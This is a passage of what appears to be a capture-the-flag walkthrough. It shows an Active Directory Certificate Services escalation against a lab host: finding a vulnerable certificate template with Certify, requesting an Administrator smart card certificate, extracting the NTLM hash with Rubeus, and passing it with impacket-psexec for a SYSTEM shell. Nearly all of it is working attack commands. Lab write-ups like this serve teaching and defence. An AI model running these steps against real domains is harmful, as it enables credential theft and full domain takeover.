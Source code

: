 ```
$TargetUPN = $user.samaccountname
```

Executing **Certify** to find vulnerable certificates:
```
Certify.exe find /vulnerable /currentuser
```

The template _Web_ is vulnerable, so running the _Get-SmartCardCertificate_ command from **ADCS.ps1** to create SmartCard Certificate:
```
Get-SmartCardCertificate -Identity Administrator -TemplateName Web -NoSmartCard
```

Confirming that a certificate was created:
```
gci cert:\currentuser\my -recurse
```

Executing **Rubeus** to get the hash of _Administrator_ by authenticating with the certificate:
```
Rubeus.exe asktgt /user:Administrator /certificate:E5EF6773C206F55C4DDAEE3C222AC729005075A4 /getcredentials
```

Using **impacket-psexec** to authenticate to the box with the hash:
```
impacket-psexec -hashes 3CCC18280610C6CA3156F995B5899E09:3CCC18280610C6CA3156F995B5899E09 administrator@10.10.11.102
```

The hash is accepted and starts a shell as the _SYSTEM_ user!
